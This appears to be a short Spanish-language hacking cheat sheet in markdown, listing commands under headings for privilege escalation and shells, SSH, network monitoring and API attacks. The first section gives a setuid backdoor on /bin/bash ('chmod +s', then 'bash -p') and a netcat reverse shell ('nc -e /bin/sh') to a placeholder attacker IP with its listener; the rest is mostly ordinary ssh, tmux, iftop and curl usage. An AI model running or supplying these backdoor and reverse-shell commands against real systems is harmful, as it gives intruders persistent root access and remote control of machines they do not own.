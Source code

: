 
## 🛠️ **Escalación de Privilegios y Shells**

```bash
1. /bin/bash -p
2. sudo chmod +s /bin/bash
3. nc -e /bin/sh <attacker_ip> 1234
4. nc -lvp 1234
```

- **`bash -p`**: Obtiene privilegios elevados en una shell.
- **`chmod +s`**: Configura `setuid` en Bash.
- **`nc -e /bin/sh`**: Shell inversa con Netcat.

---

## 🔑 **Comandos SSH y Escaneo de Vulnerabilidades**

```bash
1. ssh networkchuck@192.168.1.1
2. ssh user@remote_host 'command_to_run'
3. ssh -D 1337 -C -q -N root@172.234.88.97
```

- **`ssh`**: Acceso remoto seguro a servidores.
- **`-D 1337`**: Proxy SOCKS dinámico.

---

## 📊 **Monitoreo de Red y Terminal**

```bash
1. iftop
2. tmux
3. tmux a
4. tmux new -s bob
```

- **`iftop`**: Monitoriza tráfico en tiempo real.
- **`tmux`**: Permite manejar múltiples terminales.

---

## 💾 **Ataques a APIs y Webhooks**

```bash
1. curl -i https://networkchuck.hackwithnahamsec.com
2. curl -i https://networkchuck.hackwithnahamsec.com -H 'X-API-TOKEN: <api token>'
```

- **`curl`**: Realiza peticiones HTTP/HTTPS.
- **`-H`**: Añade una cabecera a la petición.

---
